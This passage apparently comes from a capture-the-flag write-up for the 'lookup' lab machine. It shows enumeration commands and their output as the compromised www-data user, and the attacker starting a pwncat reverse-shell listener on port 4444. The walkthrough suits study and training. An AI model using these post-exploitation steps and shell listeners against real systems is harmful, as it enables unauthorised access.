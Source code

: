 ![Victim: www-data](https://img.shields.io/badge/Victim-www%2D-data-64b5f6?logo=linux&logoColor=white)

`shell -t`

`whoami`:
```
www-data ←
```

`id`:
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

`uname -a`:
```
Linux lookup 5.4.0-156-generic #173-Ubuntu SMP Tue Jul 11 07:25:22 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
```

`lsb_release -a`:
```
No LSB modules are available.
Distributor ID: Ubuntu
Description:    Ubuntu 20.04.6 LTS
Release:        20.04
Codename:       focal
```

`ls -alps /var/www`:
```
total 20
4 drwxr-xr-x  5 root     root     4096 Apr  2  2024 ./
4 drwxr-xr-x 14 root     root     4096 Jul 30  2023 ../
4 drwxr-xr-x  3 www-data www-data 4096 Jul 30  2023 files.lookup.hmv/
4 drwxr-xr-x  2 www-data www-data 4096 Apr  2  2024 html/
4 drwxr-xr-x  3 www-data www-data 4096 Jul 30  2023 lookup.hmv/
```

`ls -alps /home`:
```
total 12
4 drwxr-xr-x  3 root  root  4096 Jun  2  2023 ./
4 drwxr-xr-x 19 root  root  4096 Jan 11  2024 ../
4 drwxr-xr-x  5 think think 4096 Jan 11  2024 think/ ←
```

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`pwncat-cs -lp 4444`:
```
[10:02:13] Welcome to pwncat 🐈!
bound to 0.0.0.0:4444 ←
```

![Victim: www-data](https://img.shields.io/badge/Victim-www%2D-data-64b5f6?logo=linux&logoColor=white)
